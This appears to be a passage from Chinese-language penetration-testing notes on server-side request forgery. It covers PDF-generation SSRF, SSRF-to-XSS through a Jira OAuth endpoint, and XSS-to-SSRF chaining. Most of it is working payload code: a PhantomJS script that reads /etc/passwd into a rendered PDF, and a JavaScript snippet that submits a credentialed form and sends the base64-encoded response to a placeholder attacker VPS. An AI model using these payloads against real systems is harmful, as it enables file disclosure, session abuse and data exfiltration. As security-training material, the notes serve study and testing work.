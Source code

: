 https://github.com/assetnote/blind-ssrf-chains

## PDF SSRF

```xml
Example with PhantomJS

<script>
    exfil = new XMLHttpRequest();
    exfil.open("GET","file:///etc/passwd");
    exfil.send();
    exfil.onload = function(){document.write(this.responseText);}
    exfil.onerror = function(){document.write('failed!')}
</script>
```

通常产生自能够导出PDF，且能够嵌入html标签的位置。如果能从访问外部，可以加载外部的恶意文件

https://www.jomar.fr/posts/2021/ssrf_through_pdf_generation/

## SSRF and XSS

### ssrf to xss

jira集成网络环境中的漏洞，可以试着寻找具有以下特点的url

```
jira/plugins/servlet/oauth/users/icon-uri?consumerUri=
```

```
http://brutelogic.com.br/poc.svg   -->simple xss
假设有一SSRF站点
http://xxx.com?url=   --> 存在ssrf
http://xxx.com?url=http://brutelogic.com.br/poc.svg  -->ssrf to xss
```

### ssrf from xss

配合xss漏洞进行ssrf，可用于读取页面以及提交表单等操作

```js
var formData = new FormData();
formData.append("username","uu2");
formData.append("pass","uu2");
//你要提交的表单内容，视情况而定
var request = new XMLHttpReauest();
request.onload = SendBack();
request.open("POST","http://xxx.com/",true);//通过true设置异步
request.withCredentials = true;
request.send(formData);//发送表单

function SendBack(){
	location= 'http://ur_vps_ip:port/result?result=' + btoa(this.responseText); //将得到的内容发送回vps并base64编码
}
```
